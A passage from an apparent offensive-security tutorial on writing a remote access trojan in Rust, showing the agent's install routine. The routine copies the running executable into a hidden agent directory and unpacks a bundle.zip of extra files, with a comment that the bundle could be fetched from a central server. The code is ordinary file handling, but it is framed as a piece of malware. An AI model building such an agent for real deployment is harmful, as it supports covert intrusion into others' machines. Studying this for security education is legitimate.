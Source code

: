 In the previous chapter, we saw how to persist across different OSes.

Now we need to add a step in our installation process: the extraction of the `bundle.zip` file.


**[ch_13/rat/agent/src/install.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/install.rs)**
```rust
pub fn install() -> Result<PathBuf, crate::Error> {
    let install_dir = config::get_agent_directory()?;
    let install_target = config::get_agent_install_target()?;

    if !install_target.exists() {
        println!("Installing into {}", install_dir.display());
        let current_exe = env::current_exe()?;

        fs::create_dir_all(&install_dir)?;

        fs::copy(current_exe, &install_target)?;

        // here, we could have fetched the bundle from a central server
        let bundle = PathBuf::from("bundle.zip");
        if bundle.exists() {
            println!(
                "bundle.zip found, extracting it to {}",
                install_dir.display()
            );

            extract_bundle(install_dir.clone(), bundle)?;
        } else {
            println!("bundle.zip NOT found");
        }
    }

    Ok(install_dir)
}
```


```rust
fn extract_bundle(install_dir: PathBuf, bundle: PathBuf) -> Result<(), crate::Error> {
    let mut dist_bundle = install_dir.clone();
    dist_bundle.push(&bundle);

    fs::copy(&bundle, &dist_bundle)?;

    let zip_file = fs::File::open(&dist_bundle)?;
    let mut zip_archive = zip::ZipArchive::new(zip_file)?;

    for i in 0..zip_archive.len() {
        let mut archive_file = zip_archive.by_index(i)?;
        let dist_filename = match archive_file.enclosed_name() {
            Some(path) => path.to_owned(),
            None => continue,
        };
        let mut dist_path = install_dir.clone();
        dist_path.push(dist_filename);

        let mut dist_file = fs::File::create(&dist_path)?;
        io::copy(&mut archive_file, &mut dist_file)?;
    }

    Ok(())
}
```
